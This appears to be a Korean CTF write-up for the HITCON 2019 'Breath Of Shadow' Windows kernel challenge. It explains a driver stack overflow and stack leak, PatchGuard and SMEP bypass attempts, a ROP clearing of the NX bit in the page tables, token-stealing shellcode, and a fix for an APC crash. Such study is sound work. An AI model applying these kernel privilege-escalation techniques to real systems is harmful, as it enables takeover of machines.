




# Breath Of Shadow



Username: ctf<br>
Password: hitcon2019


## writeup

`C:\ctf\start.bat`을 실행하면 50216 포트에서 `C:\ctf\cmd.exe`를 **Low** Integrity Level로 실행하며, netcat을 통해 접근하면 `C:\ctf\tmp` 디렉토리에 `curl` 명령어로 파일을 가져올 수 있습니다.

저는 더 (개인적으로) 편한 분석을 위해 `qemu-img.exe`로 qcow2 파일을 vdi로 변환하고 serial 커널 디버깅을 위한 옵션을 추가했습니다.

```
[HOST]
qemu-img.exe convert -f qcow2 -O vdi windows_disk.qcow2 windows_disk.vdi

[GUEST]
C:\> bcdedit /copy {current} /d "BoS [DEBUG]"
C:\> bcdedit /set "result of above command" debug on
C:\> bcdedit /dbgsettings serial debugport:1 baudrate:115200
```


Guest 환경의 파일 분석을 위한 pdb파일은 `symchk.exe`를 통해 가져올 수 있습니다.

`C:\> "C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\symchk.exe" ntoskrnl.exe /s http://msdl.microsoft.com/download/symbols /v`


우선 해당 파일의 취약점은 간단합니다. 

```c
signed __int64 __fastcall BoS_Decrypter(PIRP a1, PIO_STACK_LOCATION a2)
{
  HANDLE userinput; // rdi
  unsigned __int64 userinputlen; // rsi
  __int64 useroutputlen; // r14
  int i; // ecx
  __int64 Dst[32]; // [rsp+30h] [rbp-128h]

  userinput = a2->Parameters.SetFile.DeleteHandle;
  userinputlen = a2->Parameters.Create.Options;
  useroutputlen = a2->Parameters.Read.Length;
  if ( !userinput )
    return 0xC0000001i64;
  sub_14C0(Dst, 0i64, 256i64);
  ProbeForRead(userinput, 0x100ui64, 1u);
  memcpy(Dst, userinput, userinputlen);      // BOF
  for ( i = 0; i < userinputlen >> 3; ++i )
    Dst[i] ^= xorkey_3018;
  ProbeForWrite(userinput, 0x100ui64, 1u);
  memcpy(userinput, Dst, useroutputlen);     // stack leak
  return 0i64;
}
```

`xorkey_3018`로 입력받은 값을 xor 인코딩하지만 그 결과값을 output buffer로 받을 수 있기 때문에 해당 키를 알아내는 건 쉽습니다. Low IL이기 때문에 [NtQuerySystemInformation()](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) 같은 함수로 커널주소를 읽어들일 수는 없지만, output length를 조작하면 원하는 만큼 stack에서 값을 읽어들일 수 있어 이 역시도 그다지 큰 문제가 되지 않습니다.

이후 CR4를 덮어씌워서 SMEP를 bypass하고 [Token Stealing Shellcode](https://blahcat.github.io/2017/08/14/a-primer-to-windows-x64-shellcoding/)를 실행시킬려고 했는데, [Patch Guard](https://en.wikipedia.org/wiki/Kernel_Patch_Protection)로 인해 Exception 처리가 되며 Guest OS가 재부팅됩니다. 




이 후 **KVA Shadow**란 Hint와 [Melting Down PatchGuard: Leveraging KPTI to Bypass Kernel Patch Protection](https://www.fortinet.com/blog/threat-research/melting-down-patchguard-leveraging-kpi-to-bypass-kernel-patch-protection) 문서를 보고 KVASCODE section에 있는 `KiSystemCall64Shadow()` 함수를 덮어씌우려 했으나 [ATTEMPTED_WRITE_TO_READONLY_MEMORY](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0xbe--attempted-write-to-readonly-memory)로 예외처리가 되서 사용할 수 없었습니다.

이후 다른 방법을 찾다 [PTE에 NX Bit를 0으로 덮어씌워 SMEP를 우회하는 기법](https://connormcgarr.github.io/pte-overwrites/)이 있다는 것을 보고 찾아보니, User-Land 주소의 경우 NX Bit( bit 63 )가 PTE가 아닌 PXE( a.k.a PML4 )에 세팅된다는 것을 `KUSER_SHARED_DATA`와 비교해 알 수 있었습니다.

```
kd> !pte 000002197e3f0000
                                           VA 000002197e3f0000
PXE at FFFFBD5EAF57A020    PPE at FFFFBD5EAF404328    PDE at FFFFBD5E80865F88    PTE at FFFFBD010CBF1F80
contains 8A0000006B88E867  contains 0A0000006BA8F867  contains 0A0000006E710867  contains 000000006E7F6867
pfn 6b88e     ---DA--UW-V  pfn 6ba8f     ---DA--UWEV  pfn 6e710     ---DA--UWEV  pfn 6e7f6     ---DA--UWEV

kd> db FFFFBD010CBF1F80 l8
ffffbd01`0cbf1f80  67 68 7f 6e 00 00 00 00                          gh.n....
kd> db FFFFBD5E80865F88 l8
ffffbd5e`80865f88  67 08 71 6e 00 00 00 0a                          g.qn....
kd> db FFFFBD5EAF404328 l8
ffffbd5e`af404328  67 f8 a8 6b 00 00 00 0a                          g..k....
kd> db FFFFBD5EAF57A020 l8
ffffbd5e`af57a020  67 e8 88 6b 00 00 00 8a                          g..k.... <- Nx Bit


kd> !pte 0xFFFFF78000000000
                                           VA fffff78000000000
PXE at FFFFBD5EAF57AF78    PPE at FFFFBD5EAF5EF000    PDE at FFFFBD5EBDE00000    PTE at FFFFBD7BC0000000
contains 0000000001180063  contains 0000000001181063  contains 0000000001102063  contains 80000000011AB863
pfn 1180      ---DA--KWEV  pfn 1181      ---DA--KWEV  pfn 1102      ---DA--KWEV  pfn 11ab      ---DA--KW-V

kd> db FFFFBD7BC0000000 l8
ffffbd7b`c0000000  63 b8 1a 01 00 00 00 80                          c....... <- Nx Bit
kd> db FFFFBD5EBDE00000 l8
ffffbd5e`bde00000  63 20 10 01 00 00 00 00                          c ......
kd> db FFFFBD5EAF5EF000 l8
ffffbd5e`af5ef000  63 10 18 01 00 00 00 00                          c.......
kd> db FFFFBD5EAF57AF78 l8
ffffbd5e`af57af78  63 00 18 01 00 00 00 00                          c.......
```

ROP로 해당 bit를 0으로 바꾸니 shellcode를 실행할 순 있었지만, shellcode 실행 후 [APC_INDEX_MISMATCH](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0x1--apc-index-mismatch)로 인해 BSoD가 발생했습니다.



설명에 적혀있는 것처럼 `_ETHREAD.Tcb` 객체의 `KernelApcDisable`의 값이 0이 아닌 -1( 0xffff )로 설정되어 있기 때문에 bugcheck가 발생한것 같아 shellcode에 instruction을 추가했더니 정상적으로 동작했습니다.

```
mov rax, qword ptr gs:[188h]
mov word ptr [rax+1e4h], 0    ; _ETHREAD.Tcb.KernelApcDisable
```

